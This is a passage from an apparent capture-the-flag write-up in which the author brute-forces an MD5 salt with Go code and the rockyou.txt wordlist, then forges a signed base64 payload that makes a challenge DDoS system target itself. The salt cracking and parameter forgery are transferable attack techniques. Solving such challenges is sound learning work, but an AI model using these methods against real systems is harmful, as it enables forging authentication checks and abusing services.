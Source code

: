 ```go
	file, err := os.Open("/home/liamg/Downloads/rockyou.txt")
	if err != nil {
		panic(err)
	}
	defer file.Close()

	scanner := bufio.NewScanner(file)
	for scanner.Scan() {
		salt := scanner.Text()
		if hash(input+salt) == target {
			panic("Found salt md5(input+salt): " + salt)
		}
		if hash(salt+input) == target {
			panic("Found salt md5(salt+input): " + salt)
		}
	}

	if err := scanner.Err(); err != nil {
		panic(err)
	}

	panic("FAILED")
}

func hash(i string) string {
	h := md5.New()
	io.WriteString(h, i)
	return fmt.Sprintf("%x", h.Sum(nil))
}
```

After 30 seconds or so, this program spat out the salt!

```
Found salt md5(salt+input): mrgrinch463
```

Amazing! Now I had the means to make the DDoS system trust my payload and take `127.0.0.1` as a parameter, forcing it to launch an attack on itself!

```bash
$ echo -n "mrgrinch463127.0.0.1" | md5sum
3e3f8df1658372edf0214e202acb460b  -
```

Assembling the payload:

```bash
$ echo '{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}' | base64 -w0
eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQo= 
```

Trying it out on the endpoint:

![thwarted](/assets/2021-01-07-hacky-holidays/flag12.b.png)
